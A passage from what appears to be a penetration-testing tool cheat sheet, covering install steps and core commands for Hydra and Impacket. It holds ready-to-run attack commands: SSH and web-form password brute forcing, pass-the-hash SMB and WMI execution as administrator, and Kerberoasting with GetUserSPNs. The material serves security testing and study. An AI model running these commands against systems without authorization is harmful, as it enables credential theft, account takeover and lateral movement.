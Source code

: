 **Installation**:
```bash
# Using apt
sudo apt install hydra
```

**Core Commands**:
```bash
# SSH brute force
hydra -l root -P passwords.txt ssh://192.168.1.100

# HTTP form-based attack
hydra -l admin -P wordlist.txt 192.168.1.100 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials"

# Multiple username/password lists
hydra -L users.txt -P passwords.txt ssh://192.168.1.100
```

**Use Cases**:
- Online password attacks
- Credential brute forcing
- Authentication testing
- Web form analysis

**Alternatives**:
- Medusa
- Patator
- BruteSpray

### Impacket

**Description**: Collection of Python classes for working with network protocols, particularly focused on Windows/Active Directory protocols.

**Installation**:
```bash
# Using pip
pip3 install impacket

# Using git
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip3 install -r requirements.txt
python3 setup.py install
```

**Core Commands**:
```bash
# SMB client
python3 impacket-smbclient -hashes aad3b435b51404eeaad3b435b51404ee:C23AD9B5F526D8F48D90A9D2E6DD52F3 administrator@192.168.1.100

# WMI execution
python3 impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:C23AD9B5F526D8F48D90A9D2E6DD52F3 administrator@192.168.1.100

# Get service tickets
python3 impacket-GetUserSPNs domain.local/user:password -dc-ip 192.168.1.100 -request
```
